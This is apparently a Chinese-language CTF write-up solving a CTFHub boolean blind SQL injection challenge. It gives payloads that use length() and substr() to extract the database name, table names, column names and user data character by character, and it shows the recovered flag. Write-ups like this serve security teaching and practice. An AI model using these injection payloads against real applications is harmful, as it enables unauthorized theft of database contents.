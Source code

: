 # CTFHUB_bool注入

## 题目内容

![image-20210822205050572](/home/adian/note/Study_Note/网络安全/CTF/pic/17.png)

## WriteUp
此题只给出执行成功还是执行失败

我们首先尝试获取数据库名长度

```
1 and length(database())>=4
```

在4处执行成功，证明数据库名有4位，然后我们使用substr()逐一爆破每一位的字符

```
1 and substr(database(),1,1)='s'
```

第一位为s

```
1 and substr(database(),2,1)='q'
```

第二位为q返回成功

以此类推就可以枚举出来完整的数据库名

**逐位爆表名**

```sql
1 and substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1)='e' %23
```

limit为从第0位开始，查询第一位，也就是第一个表名

**逐位爆列名**

```sql
1 and substr((select column_name from information_schema.columns where table_name='users' limit 0,1),1,1)='i' %23
```

**爆数据同理**

```sql
1 and substr((select username from security.users where id='1' limit 0,1),1,1)='d' %23
```

这里推荐完全使用自动化工具比如sqlmap，情况特殊可以自己编写脚本进行枚举

```
[1 entry]
+----------------------------------+
| flag                             |
+----------------------------------+
| ctfhub{6681b6c51d232cbbc5aabfa5} |
+----------------------------------+
```

